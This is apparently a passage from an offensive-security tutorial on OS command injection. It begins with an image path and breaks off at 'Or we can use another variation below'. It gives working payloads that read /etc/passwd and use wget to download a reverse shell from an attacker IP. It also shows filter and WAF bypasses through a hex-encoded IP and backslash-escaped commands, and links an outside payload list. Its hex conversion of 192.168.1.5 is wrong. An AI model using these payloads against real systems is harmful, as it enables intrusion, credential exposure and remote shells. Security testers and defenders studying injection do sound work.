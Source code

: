 In the below example, we assume that the web application expects a numeric input. We provide \[1] then followed by our payload which will store the content of the \[/etc/passwd] to \[file.txt ] and then we use \[cat] to display the file contents.

```
1&cat /etc/passwd > file.txt
1&cat file.txt
```

See below for full list of payloads

```
https://github.com/payloadbox/command-injection-payload-list
```

**Bypassing command injection filters**

**The dot filters** lets suppose that you got command injection in a URL parameter such as the below one

```
http://domain.com/page.php?id=1%26id

%26: URL-encoded form of ampersand (&)
```

The above one would return the current id of the current user. If you wanted to download a reverse shell to the target machine and execute it with below payload

```
http://domain.com/page.php?id=1%26wget+192.168.1.5/shell.php
```

it wouldn't work because of the filter so the only solution is to convert your ip to the hext format. Convert every octet separately or do it online. In my case 192.168.1.5 = 0xc0a80101 So the final payload is

```
http://domain.com/page.php?id=1%26wget+0xc0a80101/shell.php
```

**Bypassing WAFs**

**Using the escape character \ and space character** Suppose we got the below URL

```
http://domain/product/?id=test
```

Obviously the above parameter \[id] can be subject to multiple vulnerabilities among which are \[LFI], \[RFI] and \[Command Injection]. In some cases, WAF filters whole system commands and a set of blacklisted characters such as the forward slash. In that case, to execute system commands we can try the command below which downloads a file \[shell] from the attacker's web server. #Note since \[/] is forbidden we can't add URL paths which means to download the shell we need to name it as \[index.html] so the target retrieves it automatically without specifying a path.

```
http://domain/product/?id='w\g\e\t 10.10.10.10 -O /t\m\p'
```

Or we can use another variation below
